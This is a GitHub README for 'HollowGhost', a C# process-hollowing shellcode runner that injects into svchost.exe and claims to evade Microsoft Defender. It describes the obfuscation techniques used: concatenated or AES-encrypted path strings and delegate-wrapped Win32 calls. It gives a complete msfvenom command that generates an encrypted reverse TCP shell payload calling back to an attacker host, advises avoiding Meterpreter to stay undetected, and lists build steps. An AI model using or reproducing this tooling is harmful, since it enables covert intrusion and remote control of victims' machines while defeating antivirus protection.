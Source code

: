 # HollowGhost :ghost:
Process hollowing C# shellcode runner that is FUD against Microsoft Defender as of October 7, 2023.

HollowGhost performs process hollowing injection into **svchost.exe** on Windows.

This shellcode runner is currently FUD by Microsoft Defender at scan-time, runtime, and during on-demand scanning with an active shell.

There are currently two versions of this shellcode runner.

The only difference between the two:

- **HollowGhost** utilizes string concatenation to obfuscate the file path string "C:\Windows\System32\svchost.exe" passed to the CreateProcess Win32 API function.

- **HollowGhostEncPath** utilizes AES encryption with a dynamically generated IV and key to obfuscate the file path string "C:\Windows\System32\svchost.exe" passed to the CreateProcess Win32 API function.

Both versions of the shellcode runner use custom delegate functions to obfuscate the Win32 API function calls and evade antivirus.

**Payload**:

`msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.X.X LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d '\n\r'`

**Note**: Using a Meterpreter payload will result in detection if an on-demand scan is performed while the shell session is active. Therefore, stick to payloads that don't use Meterpreter.

## Instructions
To keep things contained to one repository, both projects are within the HollowGhost.sln solution.
- Clone the repository `git clone https://github.com/Logan-Elliott/HollowGhost.git`
- Open the HollowGhost.sln solution file with Visual Studio
- Set build configuration to Release
- Set platform to x64
- Good to go :thumbsup:

## Windows 11 Build Tested
![win11-build](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/f3258ab1-4922-4108-94c6-b3df24ffa150)

## HollowGhost: FUD During On-Demand Scanning With Shell
![hollowghost-fud-on-demand-scan](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/3065b190-f29c-483a-8686-d11fadf5fdad)

## HollowGhostEncPath: FUD During On-Demand Scanning With Shell
![enc-path-fud-on-demand-scan](https://github.com/Logan-Elliott/HollowGhost/assets/57501260/a46a9013-30e7-4724-98a0-96baf640e623)

## To-Do List
- [ ] Edit code to output PID of the created svchost.exe process to the console
